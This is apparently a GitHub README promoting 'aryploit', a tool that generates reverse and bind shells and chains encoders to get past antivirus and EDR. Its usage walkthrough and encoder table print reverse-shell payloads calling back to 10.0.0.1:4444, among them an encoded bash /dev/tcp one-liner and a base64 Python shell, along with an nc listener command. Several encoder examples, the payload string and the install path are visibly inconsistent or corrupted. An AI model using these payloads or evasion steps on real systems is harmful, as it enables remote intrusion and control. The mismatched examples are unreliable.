 <div align="center">
  <h1>🔥 ARYPLOIT</h1>
  <p>
    <strong>Metasploit-style reverse/bind shell generator with advanced encoders for red teamers & pentesters</strong>
  </p>

</div>

---

## **🚀 What is ARYPLOIT?**
**aryploit** is a **Metasploit-inspired**, **all-in-one payload generator** for **reverse shells, bind shells, and advanced encoding**. Built for **red teamers, pentesters, and CTF players**, it simplifies payload generation with **10+ encoders**, **cross-platform support (Linux/Windows/Web)**, and **evasion techniques** to bypass AV/EDR.

⚠️ **For authorized testing & educational purposes only.**

---

## **🔥 Features**
✅ **100+ Payloads** – Reverse & bind shells for **Linux, Windows, PHP, ASP, JSP, PowerShell, Python, Ruby, Perl, and more**.
✅ **Advanced Encoders** – Chain **Base64, URL, Hex, ROT13, XOR, Caesar, Binary, Octal, HTML, Unicode** for evasion.
✅ **Search & Filter** – Quickly find payloads with `search payload linux` or `search encoders base64`.
✅ **Listener Examples** – Auto-generate **Netcat, Socat, Python** listener commands.
✅ **Modular & Extensible** – Easy to add **custom payloads, encoders, and listeners**.
✅ **CTF & Red Team Ready** – Designed for **real-world engagements** and **capture-the-flag challenges**.

---

## **📌 Installation**
### **From GitHub (Recommended)**
```bash
git clone https://github.com/giriaryan694-a11y/aryploi.git
cd aryploit


pip3 install -r requirements.txt
python3 aryploit.py

1. List Payloads
 Copyaryploit > list rev_payloads linux
reverse/linux/bash_tcp
reverse/linux/python
reverse/linux/perl
...
Filter by keyword:
 Copyaryploit > search payload tcp
reverse/linux/bash_tcp
reverse/windows/powershell
...
2. Select a Payload
 Copyaryploit > use reverse/linux/bash_tcp
[+] Loaded payload: reverse/linux/bash_tcp
Or use set payload:
 Copyaryploit > set payload reverse/linux/bash_tcp
3. Set LHOST & LPORT
 Copyaryploit > set lhost 10.0.0.1
aryploit > set lport 4444
4. Apply Encoders (Single or Chained)
 Copyaryploit > set encoder base64,url,hex
[+] Encoder chain set: base64, url, hex
5. Generate Payload
 Copyaryploit > generate
[+] Generated Payload:
aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjAuMC4xIiw0NDQ0KSk7b3MuZHVwMjoocy5maWxlbm8oKSwMCk9TKSwgb3MuZHVwMjoo...
6. Start a Listener
 Copyaryploit > listener nc
[+] Listener Example (nc): nc -lvnp 4444
```
## **🛠️ Encoders (Evasion & Obfuscation)**

| Encoder   | Description                     | Example Output                          |
|-----------|---------------------------------|-----------------------------------------|
| `base64`  | Standard Base64 encoding        | `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80NDQ0IDA+JjE=` |
| `url`     | URL encoding                    | `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F...` |
| `hex`     | Hexadecimal encoding            | `62 61 73 68 20 2d 69 20 3e 26 20 2f 64 65 76` |
| `xor`     | XOR encoding (key: `0x55`)      | `¶¬¦¬§¦¬¦§¬¶¦§¬¶¦§¬¶`                |
| `rot13`   | ROT13 cipher                    | `onfu -v >& /qri/gpc/10.0.0.1/4444 0>&1` |
| `reverse` | Reverse the string              | `1>0& 4444/1.0.0.10 cpd/cte/evd/ :ptth` |
| `caesar`  | Caesar cipher (shift +3)        | `edvk -l >& /gfy/wfs/10.0.0.1/4444 0>&1` |
| `binary`  | 8-bit binary                    | `01100010 01100001 01110011 01101000`    |
| `unicode` | Unicode escape                  | `\u0062\u0061\u0073\u0068`              |

## **📜 Payloads Database**

| Platform  | Type    | Payloads                                                                 |
|-----------|---------|--------------------------------------------------------------------------|
| **Windows** | Reverse | `cmd`, `powershell`, `nc`                                               |
| **Web**   | Reverse | `PHP`, `ASP`, `JSP`, `ASPX`                                             |
| **Linux** | Reverse | `bash`, `nc`, `python`, `perl`, `ruby`, `socat`, `openssl`, `telnet`     |
| **Linux** | Bind    | `nc`, `bash`, `socat`, `python`, `perl`                                  |
| **Windows** | Bind   | `nc`, `powershell`                                                      |


Full list: Run list rev_payloads or list bind_payloads.

🔍 Why ARYPLOIT?
🚀 Faster than Metasploit for quick payload generation.
🛡️ Bypasses basic AV/EDR with encoder chaining.
🎓 Perfect for learning reverse shells & evasion.
🔧 Extensible – Add your own payloads & encoders.

📢 Contributing
Contributions are welcome! Open a Pull Request or issue for:

New payloads
Better encoders
Bug fixes
Documentation improvements

Code of Conduct: Be respectful & ethical.

⚠️ Legal Disclaimer
⚠️ ARYPLOIT is for authorized testing only.
⚠️ Unauthorized use is illegal.
⚠️ The author is not responsible for misuse.

📣 Spread the Word
If you find aryploit useful, star ⭐ this repo and share it with your friends!
Follow for updates:

📜 License
This project is licensed under the MIT License – see LICENSE for details.

<div align="center">
  <sub>Built with ❤️ by <a href="https://github.com/giriaryan694-a11y">Aryan Giri</a></sub>
</div>
```
